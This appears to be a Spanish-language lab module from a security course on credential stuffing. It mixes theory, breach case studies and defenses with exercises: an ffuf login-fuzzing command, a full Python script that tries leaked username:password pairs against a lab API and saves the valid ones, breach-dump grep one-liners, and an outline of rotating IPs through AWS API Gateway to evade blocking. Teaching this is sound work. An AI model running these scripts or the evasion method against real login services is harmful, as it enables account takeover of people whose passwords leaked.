

# Módulo 6: Credential Stuffing

> ⏱️ **Tiempo estimado**: 60 minutos

## 🎯 Objetivos de Aprendizaje

- Comprender qué es credential stuffing y por qué funciona
- Simular ataques con credenciales filtradas
- Desarrollar scripts automatizados
- Identificar defensas efectivas

## 📖 Teoría

### Flujo de Credential Stuffing



### ¿Qué es Credential Stuffing?

**Definición**: Uso de credenciales obtenidas de una brecha de datos para intentar acceder a **otros servicios**.

### Por qué es efectivo

Estudios demuestran:
- **65%** de usuarios reutilizan contraseñas
- **51%** usan la misma contraseña para trabajo y personal
- **13%** usa la misma contraseña para TODO

### Diferencia con Password Spraying

| Credential Stuffing | Password Spraying |
|---------------------|-------------------|
| Muchos usuarios con sus passwords reales | Pocos passwords contra muchos usuarios |
| Requiere breach previa | No requiere breach |
| Alta tasa de éxito | Baja tasa de éxito |
| Difícil de detectar (parece login legítimo) | Fácil de detectar (patrón obvio) |

---

## 🌍 Casos Reales

### Collection #1-5 (2019)

- **2.7 billones** de pares usuario:contraseña
- Agregación de múltiples brechas históricas
- Disponible públicamente en foros

### Disney+ (2019)

Miles de cuentas comprometidas mediante:
1. Credenciales de brechas previas
2. Credential stuffing automatizado
3. Cuentas vendidas en dark web por $3-11

### Spotify (2020)

- 300,000-350,000 cuentas afectadas
- Base de datos de credenciales filtradas en sitio web
- Spotify forzó reset de passwords

---

## 💻 Ejercicios Prácticos

### Preparación

```bash
cd /exercises/module6

# Archivos disponibles
ls -lh
# leaked_credentials.txt - 100 pares usuario:contraseña simulados
```

---

### Ejercicio 1: Credential Stuffing con Hydra 🟢

```bash
# Formato del archivo: usuario:contraseña
head leaked_credentials.txt

# Convertir a formato para ataque
cut -d: -f1 leaked_credentials.txt > users.txt
cut -d: -f2 leaked_credentials.txt > passwords.txt
```

#### Ataque con FFUF contra vulnerable-api

```bash
# Probar cada password del leak para un usuario
ffuf -w passwords.txt \
     -u http://vulnerable-api:5000/api/login \
     -X POST \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"FUZZ"}' \
     -mc 200

# Resultado esperado si encuentra la contraseña:
# [Status: 200, Size: 150, ...]
#     * FUZZ: password
```

**Problema**: Esto solo prueba un usuario. Para credential stuffing real necesitamos probar **pares específicos**.

---

### Ejercicio 2: Script Python para matching perfecto 🟡

El script prueba **pares exactos** usuario:contraseña (no todas las combinaciones).

Crear `credential_stuffing.py`:

```python
#!/usr/bin/env python3
"""
Credential Stuffing Script para vulnerable-api
Intenta login con pares específicos usuario:contraseña
"""

import requests
import time
import json

# Configuración
TARGET_URL = "http://vulnerable-api:5000/api/login"
CREDENTIALS_FILE = "leaked_credentials.txt"

def test_credential(session, username, password):
    """Intenta login con credencial específica"""
    data = {"username": username, "password": password}
    
    try:
        response = session.post(
            TARGET_URL, 
            json=data,
            headers={"Content-Type": "application/json"},
            timeout=5
        )
        
        result = response.json()
        return result.get("success", False)
    except Exception as e:
        print(f"[!] Error: {e}")
        return None

def main():
    print("=" * 60)
    print("Credential Stuffing - vulnerable-api")
    print("=" * 60)
    
    session = requests.Session()
    valid_creds = []
    total = 0
    
    with open(CREDENTIALS_FILE, 'r') as f:
        for line in f:
            line = line.strip()
            if ':' not in line or line.startswith('#'):
                continue
                
            username, password = line.split(':', 1)
            total += 1
            
            print(f"[{total}] Probando {username}:{password}...", end=' ')
            
            result = test_credential(session, username, password)
            
            if result is True:
                print("✓ VÁLIDA")
                valid_creds.append((username, password))
            elif result is False:
                print("✗ Inválida")
            else:
                print("? Error")
            
            time.sleep(0.3)  # Delay entre intentos
    
    # Resultados
    print("\n" + "=" * 60)
    print(f"Credenciales probadas: {total}")
    print(f"Credenciales válidas: {len(valid_creds)}")
    if total > 0:
        print(f"Tasa de éxito: {len(valid_creds)/total*100:.1f}%")
    print("=" * 60)
    
    if valid_creds:
        print("\n[+] Credenciales válidas encontradas:")
        for user, pwd in valid_creds:
            print(f"    {user}:{pwd}")
        
        with open('valid_credentials.txt', 'w') as f:
            for user, pwd in valid_creds:
                f.write(f"{user}:{pwd}\n")
        print("\n[*] Guardadas en valid_credentials.txt")

if __name__ == "__main__":
    main()
```

#### Ejecutar script

```bash
chmod +x credential_stuffing.py
python3 credential_stuffing.py
```

**Pregunta**: ¿Qué porcentaje de credenciales fueron válidas?

---

### Ejercicio 3: Contra API vulnerable 🔴

Si el contenedor `vulnerable-api` está corriendo:

```bash
# Probar endpoint
curl http://vulnerable-api:5000/api/login \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"username": "test@example.com", "password": "password123"}'
```

Modificar script para API:

```python
def test_credential_api(session, username, password):
    """Versión para API JSON"""
    url = "http://vulnerable-api:5000/api/login"
    data = {"username": username, "password": password}
    
    try:
        response = session.post(url, json=data, timeout=5)
        json_resp = response.json()
        
        if json_resp.get('success'):
            return True
        else:
            return False
    except:
        return None
```

---

## 🛡️ Defensas

### 1. Multi-Factor Authentication (MFA)

Incluso con password válida, se requiere segundo factor:
- SMS/Email code
- TOTP (Google Authenticator)
- Hardware token (YubiKey)

### 2. Detección de patrones

```python
# Pseudocódigo de detección
if login_attempts_per_ip > 100 in last_hour:
    add_to_blacklist(ip)
    send_alert()

if failed_logins_per_user > 5 in last_minute:
   require_captcha(user)
```

### 3. Verificación con bases de datos de brechas

**Have I Been Pwned API** permite verificar si un email/password ha sido filtrado:

```bash
# Verificar email
curl https://haveibeenpwned.com/api/v3/breachedaccount/test@example.com

# k-anonymity para passwords
echo -n "password" | sha1sum
# Enviar primeros 5 caracteres del hash
curl https://api.pwnedpasswords.com/range/5BAA6
```

### 4. Rate Limiting avanzado

```python
# Por IP
@limiter.limit("10 per minute")

# Por usuario
@limiter.limit("3 per minute", key_func=lambda: request.form['username'])

# Global
@limiter.limit("1000 per hour")
```

### 5. IP Rotation y Evasión (Avanzado) 🥷

En entornos reales, probar 100 credenciales desde 1 IP bloqueará tu IP.

**Herramienta: CredMaster** (Defensa/Simulación)
- Utiliza **AWS API Gateway** (FireProx) para rotar la IP de origen en cada petición.
- Para el firewall, el ataque parece venir de miles de IPs de Amazon diferentes.

**Concepto**:
1. Atacante → AWS API Gateway (IP A) → Target
2. Atacante → AWS API Gateway (IP B) → Target

*Nota: CredMaster es avanzado y requiere cuenta AWS, pero es vital conocer su existencia.*

> **➡️ Siguiente Nivel**: Aprenderás a configurar y usar rotación de IPs en el **[Módulo 9](../module9/README.md)**.


---

## 📊 Análisis de Breach Data

### Formato común

```
email:password
username:password:service
hash:plaintext:service
```

### Herramientas para análisis

```bash
# Contar líneas
wc -l breach.txt

# Top dominios de email
cut -d@ -f2 breach.txt | cut -d: -f1 | sort | uniq -c | sort -rn | head

# Passwords más comunes
cut -d: -f2 breach.txt | sort | uniq -c | sort -rn | head -20

# Filtrar por dominio específico
grep "@gmail.com" breach.txt > gmail_users.txt
```

---

## 🧪 Experimento: Tasa de reutilización

```bash
# Simular múltiples servicios
python3 credential_stuffing.py --target http://service1.local
python3 credential_stuffing.py --target http://service2.local
python3 credential_stuffing.py --target http://service3.local

# Comparar resultados
comm -12 <(sort service1_valid.txt) <(sort service2_valid.txt)
```

**Hipótesis**: Encontrarás credenciales válidas en múltiples servicios.

---

## 🤔 Preguntas de Reflexión

1. **Escala**: Si 65% de usuarios reusan passwords, ¿cuál sería la tasa de éxito esperada?

2. **Defensa**: ¿Qué defensas son efectivas sin afectar UX?

3. **Responsabilidad**: Como usuario, ¿qué herramientas usarías para prevenir esto?

4. **Detección**: ¿Cómo diferenciarías credential stuffing del tráfico legítimo?

---

## 📚 Recursos Adicionales

- [OWASP Credential Stuffing](https://owasp.org/www-community/attacks/Credential_stuffing)
- [Troy Hunt: Pwned Passwords](https://www.troyhunt.com/ive-just-launched-pwned-passwords-version-2/)
- [Collection #1-5 Analysis](https://www.troyhunt.com/the-773-million-record-collection-1-data-reach/)

---

## ✅ Criterios de Completitud

Has completado este módulo cuando:

- [ ] Ejecutaste credential stuffing con Hydra
- [ ] Desarrollaste/ejecutaste el script Python
- [ ] Comprendiste por qué la reutilización es problemática
- [ ] Identificaste al menos 3 defensas efectivas
- [ ] Analizaste un caso real de credential stuffing

---

🔙 [Anterior: Módulo 5 - Ataques Online](../module5/README.md) | 🔜 [Siguiente: Módulo 7 - Análisis de Stealers](../module7/README.md)
